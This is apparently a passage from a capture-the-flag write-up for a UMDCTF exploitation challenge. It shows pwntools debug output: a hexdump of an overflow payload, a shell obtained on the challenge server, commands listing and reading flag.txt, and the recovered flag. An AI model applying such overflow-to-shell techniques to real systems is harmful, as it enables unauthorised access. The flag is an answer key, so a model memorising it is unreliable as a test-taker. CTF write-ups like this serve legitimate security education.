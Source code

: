 ```shell
    00000010  61 61 61 63  61 61 61 64  61 61 61 65  61 61 61 66  │aaac│aaad│aaae│aaaf│
    00000020  61 61 61 1a  90 7b d2 56  55 20 49 20  68 65 61 72  │aaa·│·{·V│U I │hear│
    00000030  64 3f 0a                                            │d?·│
    00000033
Was that a Yesabaaacaaadaaaeaaafaaa\x1a\x90{\xd2VU I heard?
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0xd bytes:
    b'flag.txt\n'
    b'run\n'
flag.txt
run
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x49 bytes:
    b'UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}\n'
UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to challs.umdctf.io port 32300

```
## Flag
```
UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}
```
